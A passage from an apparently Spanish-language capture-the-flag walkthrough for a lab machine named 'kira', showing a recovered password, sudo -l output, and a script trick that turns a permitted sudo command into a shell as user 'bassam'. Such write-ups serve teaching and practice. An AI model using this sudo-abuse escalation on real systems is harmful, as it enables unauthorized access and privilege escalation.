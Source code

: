 Info:

```
kira2003
```

Por lo que veremos la contraseña del usuario `kira` es `kira2003`...

```
User = kira
Password = kira2003
```

Si hacemos `sudo -l` veremos lo siguiente...

```
Matching Defaults entries for kira on kira:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kira may run the following commands on kira:
    (bassam) /home/kira/test.sh
```

Podremos ejecutar como `bassam` el `.sh`...

Dentro de la carpeta de `kira` haremos lo siguiente...

```shell
nano shell.sh

#Dentro del nano
#!/bin/bash

/bin/bash
```

```shell
chmod +x shell.sh
```

```shell
sudo -u bassam /home/kira/test.sh /home/kira/shell.sh
```

Info:

```
your name
bash  
/home/kira/test.sh: 3: /home/kira/test.sh: cannot create /home/kali/message.txt: Directory nonexistent

whoami
bassam
```

Por lo que ya seriamos el usuario `bassam` ahora nos importamos una shell mas bonita...

```shell
script /dev/null -c bash
```
